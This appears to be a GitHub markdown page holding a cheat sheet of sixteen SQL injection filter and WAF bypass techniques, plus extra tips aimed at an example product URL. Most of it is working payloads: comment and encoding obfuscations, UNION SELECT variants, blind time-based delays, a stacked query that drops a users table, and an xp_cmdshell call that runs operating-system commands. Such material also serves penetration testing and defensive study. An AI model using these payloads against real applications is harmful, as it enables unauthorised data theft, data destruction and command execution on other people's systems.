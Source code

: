 # check 


<details>
  <summary>Tips</summary>

# 🔐 SQL Injection Filter Bypass Techniques

A curated guide to evading input filtering during SQL injection attacks. Each technique includes a description and when to use it.

---

## 1. Comment-Based Obfuscation

**Description:** Breaks up keywords using SQL comments.

**Examples:**

* `UN/**/ION/**/SELECT`
* `/*!50000SELECT*/ user`
* `' OR 1=1 --`

**Use When:**

* Keywords like `SELECT`, `UNION`, etc. are blacklisted.
* Working with MySQL or PostgreSQL.

---

## 2. Case Variation

**Description:** Varies keyword casing to bypass case-sensitive filters.

**Example:**

* `UnIoN SeLeCt`

**Use When:**

* Filters are case-sensitive and not normalized.

---

## 3. URL & Double Encoding

**Description:** Encodes payloads to bypass filters that scan raw input.

**Examples:**

* `' OR 1=1 --` → `%27%20OR%201%3D1--`
* `%2527` → Decodes to `%27` → `'`

**Use When:**

* WAF or app blocks characters like `'`, `--`, `=` or spaces.

---

## 4. Hexadecimal Encoding

**Description:** Encodes strings or keywords using hex.

**Example:**

* `SELECT 0x61646d696e` → "admin"

**Use When:**

* String literals are filtered.
* You want to hide payloads in queries.

---

## 5. String Construction (CHAR, CONCAT)

**Description:** Constructs strings to avoid filtered literals.

**Examples:**

* `CHAR(97,100,109,105,110)`
* `CONCAT('ad','min')`

**Use When:**

* `'admin'` or other strings are blocked.

---

## 6. Logical/Arithmetic Obfuscation

**Description:** Obfuscates values using math or logic.

**Examples:**

* `1*1`, `1337+0x0a`

**Use When:**

* Simple values or logic are blocked or validated.

---

## 7. Keyword Avoidance

**Description:** Uses alternate functions to bypass blacklisted keywords.

**Examples:**

* `EXTRACTVALUE()` (MySQL)
* `LENGTH()`, `ASCII()`, `SUBSTRING()`

**Use When:**

* `SELECT`, `UNION`, etc., are completely blocked.

---

## 8. WAF-Specific Payload Tricks

**Description:** Payload shaping to bypass Web Application Firewalls.

**Examples:**

* `' OR 1=1 --blah`
* `UNION%09SELECT`

**Use When:**

* You see 403/406 errors when injecting.

---

## 9. Time-Based Payloads (Blind SQLi)

**Description:** Use time delays to confirm injection.

**Examples:**

* `SLEEP(5)` (MySQL)
* `WAITFOR DELAY '00:00:05'` (MSSQL)

**Use When:**

* No error messages or output is reflected.

---

## 10. Stacked Queries

**Description:** Executes multiple SQL commands.

**Examples:**

* `'; DROP TABLE users; --`
* `'; exec xp_cmdshell('whoami'); --`

**Use When:**

* DBMS supports stacked queries (MSSQL, PostgreSQL).

---

## 11. DBMS-Specific Functions

**Description:** Use DB-specific built-ins for stealth extraction.

**Examples:**

* `VERSION()`, `@@version`, `pg_sleep()`

**Use When:**

* You’ve fingerprinted the DBMS.

---

## 12. Second-Order Injection

**Description:** Injected input executes in a different context/time.

**Examples:**

* `User-Agent`, `Referer`, or stored profile data.

**Use When:**

* Direct input isn’t vulnerable, but used later in queries.

---

## 13. HTTP Parameter Pollution (HPP)

**Description:** Sends multiple values for the same parameter.

**Example:**

* `id=1&id=2 OR 1=1`

**Use When:**

* Filters only inspect first or last param.

---

## 14. Unicode / UTF-16 Encoding

**Description:** Encodes input using Unicode.

**Example:**

* `'` → `\u0027`

**Use When:**

* Filters check ASCII only.

---

## 15. Whitespace Manipulation

**Description:** Replaces space with tabs, newlines, or comment blocks.

**Examples:**

* `UNION%0ASELECT`, `UNION/**/SELECT`

**Use When:**

* Space is filtered or blacklisted.

---

## 16. Protocol-Level Tricks

**Description:** Advanced tricks at HTTP level.

**Examples:**

* Chunked encoding, multipart bypass, host header abuse.

**Use When:**

* WAF/proxy blocks everything else.

---

## 🧠 Pro Tips

* Always identify DBMS and filtering behavior first.
* Use Burp Suite Intruder and Repeater for fuzzing.
* Blind SQLi often requires time-based or second-order tricks.

---

**Last updated: May 2025**

  
</details>


- > if ``OR '1'='1'--`` not work try : 
  > 
  > ```
  > ' OR '1'='1' /*
  > ```
  >
  > if A WAF blocks typical SQL keywords ``(SELECT, UNION, OR)``.
  >
  > ```
  > 1' /*!UNION*/ SELECT 1,2--
  > ```
  >
  > most effective for error-based SQLi here ``https://example.com/product.php?id=5``
  >
  > ```
  > 5' AND (SELECT 1/0)--
  > ```
  >
  > Best advanced technique to bypass heavy WAF filtering:
  > > Use hex-encoded values and mid-query obfuscation like UN//ION**
  > > ```
  > > Obfuscation (e.g., UN/**/ION, 0x73656c656374 for 'select')
  > > ```
  >
  > 
